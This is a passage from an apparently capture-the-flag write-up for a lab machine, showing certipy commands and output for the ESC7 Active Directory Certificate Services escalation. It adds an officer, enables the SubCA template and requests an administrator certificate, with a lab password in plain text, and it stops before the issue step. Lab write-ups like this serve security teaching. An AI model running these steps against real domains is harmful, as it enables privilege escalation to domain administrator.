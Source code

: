 ``` cmd
      Allow  ManageCA, ManageCertificates               MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
      Allow  ManageCA, ManageCertificates               MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
      Allow  ManageCA, Enroll                           MANAGER\Raven                 S-1-5-21-4078382237-1492182817-2568127209-1116
      Allow  Enroll                                     MANAGER\Operator              S-1-5-21-4078382237-1492182817-2568127209-1119
    Enrollment Agent Restrictions : None

[+] No Vulnerable Certificates Templates found!

```

Even though it found no Vulnerable Certificates, we see that Raven has ManageCA permission.
And with Manage CA permission, we can use this [attack](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#attack-2) to escalate our privileges


### Exploit

"The technique relies on the fact that users with the Manage CA and Manage Certificates access right can issue failed certificate requests. The SubCA certificate template is vulnerable to ESC1, but only administrators can enroll in the template. Thus, a user can request to enroll in the SubCA - which will be denied - but then issued by the manager afterwards."


So first we add raven as an officer

``` bash
$ certipy ca -ca 'manager-DC01-CA' -add-officer raven -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully added officer 'Raven' on 'manager-DC01-CA'
```

Then we enable the SubCA template
``` bash
$ certipy ca -ca 'manager-DC01-CA' -enable-template SubCA -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully enabled 'SubCA' on 'manager-DC01-CA'
```

Now we can request a certificate based on the SubCA template, it will be denied but we will get the Request ID and the private key

``` bash
$ certipy req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target 10.10.11.236 -template SubCA -upn administrator@manager.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 20
Would you like to save the private key? (y/N) y
[*] Saved private key to 20.key
[-] Failed to request certificate
```
The Request ID is 20 in this case
Since we have the Manage CA and Manage Certificates privilege, we can now issue the failed certificate with the obtained ID

